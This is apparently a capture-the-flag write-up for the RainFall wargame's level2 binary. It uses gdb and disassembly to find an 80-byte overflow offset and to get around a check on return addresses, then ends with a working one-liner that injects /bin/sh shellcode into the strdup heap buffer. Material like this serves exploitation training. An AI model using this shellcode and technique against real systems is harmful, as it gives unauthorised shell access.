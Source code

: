 # level1

The binary presents doesn't take any arguments. It reads from `stdin` and prints it back to `stdout`. 


## Step 1
Decompile the binary with `Ghidra` gives the following code: [source.c](https://github.com/lorispuchol/rainfall/blob/main/level2/source.c) 

## Step 2
Use [Buffer overflow pattern generator
](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) to find the offset of the return address.

```console
level2@RainFall:~$ gdb level2
(gdb) r
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb)
```

> Offset is 80

## Step 3

Try repeat the same process than level1 but it doesn't work. it print the return address in the stack. and exit

Indeed there is a stack protector which verify if return is in the `0xb.......` range. 

```console
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
```

```c
if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
                    /* WARNING: Subroutine does not return */
    _exit(1);
}
```

So we can't drop at the start of the buffer (same for libc and environment variables) which are in `0xb.......` addresses.


## Goal
We can see that the buffer is dup with `strdup`. `strdup` malloc a new buffer and copy the string in it.

Goal is to drop in the `strdup` buffer by finding the return address of the `strdup` function.

```console
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
=> 0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
End of assembler dump.
(gdb) i r
eax            0x804a008	134520840
ecx            0x0	0
edx            0xbffff6dc	-1073744164
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff6c0	0xbffff6c0
ebp            0xbffff728	0xbffff728
esi            0x0	0
edi            0x0	0
eip            0x804853d	0x804853d <p+105>
eflags         0x200282	[ SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

return address of `strdup` is `0x804a008`

can be found with `ltrace` too

## Exploit

```bash
(python -c 'print "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "A" * (80-21) + "\x08\xa0\x04\x08"'; cat) | /home/user/level2/level2
```
use a shorter shellcode found in [Shellstorm](https://shell-storm.org/shellcode/files/shellcode-752.html)